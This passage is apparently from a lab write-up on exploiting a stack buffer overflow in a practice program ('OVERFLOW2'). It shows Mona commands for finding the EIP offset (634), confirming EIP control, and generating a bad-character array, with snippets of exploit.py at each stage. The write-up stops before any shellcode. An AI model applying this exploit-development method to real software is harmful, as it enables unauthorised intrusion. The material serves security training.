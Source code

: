 Run exploit.py against program again, use Mona to find the offset:

```text
!mona findmsp -distance 800
```

![bofprep-634-offset](/assets/images/2021-03-11-22-42-29.png)

Check we control EIP, change exploit.py with new offset and add BBBB:

```text
prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""
```

Run exploit.py again, check EIP for 424242:

![bofprep-BBBB-EIP](/assets/images/2021-03-11-22-44-56.png)

Use Mona to create a bytearray so we can look for bad characters:

```text
!mona bytearray -b "\x00"
```

Add our bad character array to exploit.py:

```text
prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  <SNIP>
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)  
```
